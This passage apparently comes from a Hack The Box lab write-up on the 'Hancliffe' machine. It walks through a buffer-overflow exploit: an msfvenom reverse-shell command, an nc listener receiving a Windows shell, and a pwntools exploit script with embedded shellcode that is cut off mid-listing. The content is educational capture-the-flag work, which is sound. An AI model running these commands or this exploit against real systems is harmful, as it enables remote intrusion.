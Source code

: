 [![](https://0xdfimages.gitlab.io/img/hancliffe-socket-stack-2.png)_Click for
full size image_](https://0xdfimages.gitlab.io/img/hancliffe-socket-
stack-2.png)

It’s about to call EAX, which holds `recv`, and store the shellcode after a
handful of bytes that I control. It will then return to the next instruction,
which at the moment they are INTs (`\xCC`). I’ll change them to NOPs (`\x90`)
so that execution continues without issue through the NOPs and to the
shellcode.

#### Add Shellcode

Given that this all looks good, I’ll add the shellcode from `msfvenom`
generated using the following:

    
    
    msfvenom -p windows/shell_reverse_tcp LHOST=10.1.1.164 LPORT=443 -b "\x00" -f python
    

I wasn’t able to get it to work running in x32dbg, but with the binary running
naturally, it worked:

    
    
    oxdf@hacky$ python3 sploit.py PORT=9920
    [+] Opening connection to 10.1.1.163 on port 9920: Done
    [*] Closed connection to 10.1.1.163 port 9920
    

At `nc`:

    
    
    oxdf@hacky$ nc -lnvp 443
    Listening on 0.0.0.0 443
    Connection received on 10.1.1.163 49996
    Microsoft Windows [Version 10.0.19044.1288]
    (c) Microsoft Corporation. All rights reserved.
    
    FLARE Fri 02/04/2022 18:59:01.48
    Z:\hackthebox\hancliffe-10.10.11.115>
    

### Remote Exploit

I’ll update the connecting in the script to take both the IP and PORT as args.
I’ll also replace the shellcode with my tun0 IP.

The final script is:

    
    
    #!/usr/bin/env python3
    
    from pwn import *
    
    
    r = remote(args['IP'], args['PORT'])
    
    # 10.10.14.6:443
    shellcode =  b""
    shellcode += b"\xb8\xcb\x04\x2d\xcb\xda\xd4\xd9\x74\x24\xf4"
    shellcode += b"\x5b\x33\xc9\xb1\x52\x31\x43\x12\x03\x43\x12"
    shellcode += b"\x83\x20\xf8\xcf\x3e\x4a\xe9\x92\xc1\xb2\xea"
    shellcode += b"\xf2\x48\x57\xdb\x32\x2e\x1c\x4c\x83\x24\x70"
    shellcode += b"\x61\x68\x68\x60\xf2\x1c\xa5\x87\xb3\xab\x93"
    shellcode += b"\xa6\x44\x87\xe0\xa9\xc6\xda\x34\x09\xf6\x14"
    shellcode += b"\x49\x48\x3f\x48\xa0\x18\xe8\x06\x17\x8c\x9d"
    shellcode += b"\x53\xa4\x27\xed\x72\xac\xd4\xa6\x75\x9d\x4b"
    shellcode += b"\xbc\x2f\x3d\x6a\x11\x44\x74\x74\x76\x61\xce"
    shellcode += b"\x0f\x4c\x1d\xd1\xd9\x9c\xde\x7e\x24\x11\x2d"
    shellcode += b"\x7e\x61\x96\xce\xf5\x9b\xe4\x73\x0e\x58\x96"
